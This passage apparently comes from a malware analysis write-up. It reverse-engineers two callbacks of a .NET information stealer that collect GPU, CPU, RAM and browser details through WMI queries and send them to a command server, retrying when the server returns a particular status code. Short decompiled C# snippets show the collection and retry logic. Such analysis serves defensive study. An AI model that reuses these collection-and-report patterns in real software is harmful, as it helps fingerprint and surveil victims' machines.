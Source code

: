 #### Callback 7
<img width="428" height="280" alt="image" src="https://github.com/user-attachments/assets/d4b757bf-dedd-40e5-9cfd-c6b944ae592d" />
<img width="590" height="284" alt="image" src="https://github.com/user-attachments/assets/0ee558e6-d4af-453f-a5df-f6c8ed278d37" />

Note: I only show `GetGraphicCards()` because `GetProcessors()` uses the same logic.

Both functions are using WMI (Windows Management Instrumentation → database that contains windows device info). There’s some simple obfuscation here (eg. `System.Linq` is being removed from the string and is useless).

The malware here is querying all the information for each GPU, by passing `root\\CIMV2` (similar to a folder where system info exists) and the query `SELECT * FROM Win32_VideoController`. This is also done for the CPU with a different query.

→ GetGraphicCards and GetProcessors() return a List<Entity3>, where Entity3 is just (after reconstructing it):
```csharp
[DataContract(Name = "Entity3", Namespace = "Entity")]
public class HardwareDeviceInfo // eg. RAM info, GPU info, CPU info
{
  [DataMember(Name = "Id1")]
  public string deviceName { get; set; }  // originally named Id1

  [DataMember(Name = "Id2")]
  public string deviceInfo { get; set; } // originally named Id2

  [DataMember(Name = "Id3")]
  public Entity14 EnumFlag { get; set; } // originally named Id3
}
```
where `deviceName` can be for example “GPU 1”, device info “Number of cores”.
So basically the first callback in EntityResolver.Main thus far adds to a list: each GPU info, each CPU info and total RAM.
The function then sends the list to the server and expects it to respond with “2” (which is Entity13.Id3, an enum):
```csharp
Entity13 entity = connection.Id13(list);
if (entity == Entity13.Id3)
{
  asdk9345asd(connection, settings, ref result);
}
if (entity == Entity13.Id4)
{
  throw new InvalidOperationException();
}
```
If the server responds with this value, then the client just calls the function again recursively and resends the data again.
My assumption is that this is a re-try mechanism in case the info is not received correctly by the server; Entity13 is thus just a status code or something similar to that.

#### Callback 8
```csharp
 public static void asdk8jasd(ConnectionProvider connection, Entity2 settings, ref Entity7 result)
{
    Entity13 entity = connection.Id14(SystemInfoHelper.GetBrowsers());
    if (entity == Entity13.Id3)
    {
        asdk8jasd(connection, settings, ref result);
    }
    if (entity == Entity13.Id4)
    {
        throw new InvalidOperationException();
    }
}
```